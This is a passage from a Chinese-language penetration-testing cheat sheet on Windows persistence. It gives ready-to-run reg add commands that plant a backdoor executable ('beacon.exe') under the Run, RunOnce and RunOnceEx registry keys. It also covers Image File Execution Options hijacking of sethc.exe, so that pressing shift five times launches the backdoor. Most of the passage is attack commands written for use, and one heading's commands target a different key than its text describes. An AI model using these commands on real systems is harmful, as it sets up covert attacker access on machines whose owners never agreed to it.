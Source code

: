 ##### RunOnce 注册键

用户登录时，所有程序按顺序自动执行，在 Run 启动项之前执行，但只能运行一次，执行完毕后会自动删除；用户重新登录时，便会启动后门程序

```cmd
# Usage
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "<name>" /t REG_SZ /F /D "<path to executable>"

REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\beacon.exe"
```

#### 其他

```cmd
# executable 管理员权限
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001

# dll 管理员权限
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend

# Usage
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Pentestlab /t REG_SZ /d "C:\tmp\beacon.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Pentestlab /t REG_SZ /d "C:\tmp\beacon.dll"
```

### 4. 映像劫持

#### 原理

通过修改注册表路径IFEO（Image File Execution Options）的exe程序，然后进行重定向执行后门程序的过程

##### 修改Debugger值

1. 运行某exe程序时候，系统会在注册表`Image File Execution Options`中寻找是否存在exe的项

```cmd
# 注册表路径
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
```

2. 在IFEO中新添加一个项，取名sethc.exe

```cmd
# Usage
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /f
```

3. 新建一个字符串值Debugger，键值修改为后门存在的路径表，连续五次shitf触发sethc.exe程序，系统就会重定向到指定路径，执行beacon.exe成功上线

```cmd
# Usage
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "<path to executable>" /f

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Users\Administrator\Downloads\22.exe" /f
```

